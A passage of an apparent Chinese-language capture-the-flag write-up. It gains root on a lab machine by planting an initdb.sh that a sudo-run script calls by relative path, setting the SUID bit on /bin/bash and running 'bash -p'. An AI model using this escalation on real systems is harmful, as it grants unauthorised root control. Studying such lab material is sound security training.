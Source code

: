 ```bash

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

注意到`./initdb.sh`用了相对路径，如果能创建一个同名文件便可以轻松利用。然后关键部分为查看是否有名为`initdb.sh`的进程在执行。
尝试一下`pgrep`命令看看结果：
```bash
dvir@headless:~/app$ /usr/bin/pgrep -x "initdb.sh"
dvir@headless:~/app$ echo $?
1
```

所以`syscheck`命令会运行到`./initdb.sh`的部分，实际执行一下看看：
```bash
dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.04, 0.03, 0.00
Database service is not running. Starting it...
```

确实是，并且当前目录也并无`./initdb.sh`所以无事发生。

### sudo提权

新建一个`initdb.sh`测试一下，运行`sudo /usr/bin/syscheck`可以发现最后多了一行输出“test”，即我们指定的命令：
```bash
dvir@headless:~/app$ cat initdb.sh 
#!/bin/bash
echo test
dvir@headless:~/app$ ls -l initdb.sh 
-rwxr-xr-x 1 dvir dvir 22 Apr 14 10:29 initdb.sh
dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
test
```

修改脚本后提权：
```bash
dvir@headless:~/app$ cat initdb.sh 
#!/bin/bash
chmod +s /bin/bash

dvir@headless:~/app$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash

dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...

dvir@headless:~/app$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 24  2023 /bin/bash

dvir@headless:~/app$ bash -p
```